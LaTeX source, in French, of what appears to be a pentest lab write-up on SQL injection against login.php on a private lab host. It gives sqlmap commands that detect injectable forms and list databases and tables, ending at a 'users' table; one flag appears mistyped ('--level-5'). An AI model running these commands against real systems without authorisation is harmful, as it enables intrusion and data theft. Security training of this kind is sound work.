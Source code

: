 \documentclass[a4paper,12pt]{report}
\begin{document}
\begin{enumerate}


\item Détection d’un formulaire exploitable
On identifie les champs de \texttt{login.php} 

\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --forms --batch --level-5 --risk-3
\end{lstlisting}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.5\textwidth}
        \centering
        \texttt{[image: img/webserver1\_sql\_injection\_lancemant\_attaque.png]}
        \caption{détection des formulaires 1}
        \label{fig:web1-login-form-kali}
    \end{minipage}
    \hfill
    \begin{minipage}{0.48\textwidth}
        \centering
        \texttt{[image: img/webserver1\_db\_sql\_injection\_scan\_forms.png]}
         \caption{détection des formulaires 2}
        \label{fig:web1-sql-result}
    \end{minipage}
\end{figure}


\item  Extraction des bases de données
On liste les bases disponibles :
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" --dbs
\end{lstlisting}



\begin{figure}[H] 
\label{web1-dbs-kali}
    \centering
\texttt{[image: img/webserver1\_sql\_injection\_dbs.png]} 
\caption{détection des bases de données}
\end{figure}

Nous allons explorer infra\_db.

\item Extraction des tables

On liste les tables de \texttt{infra\_db} 

\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db --tables
\end{lstlisting}
\begin{figure}[H] 
\label{web1-tables-kali}
    \centering
\texttt{[image: img/webserver1\_sql\_injection\_tables.png]} 
\caption{détection des tables de infra\_db}
\end{figure}
On a une tables : users.


\end{enumerate}
\end{document}
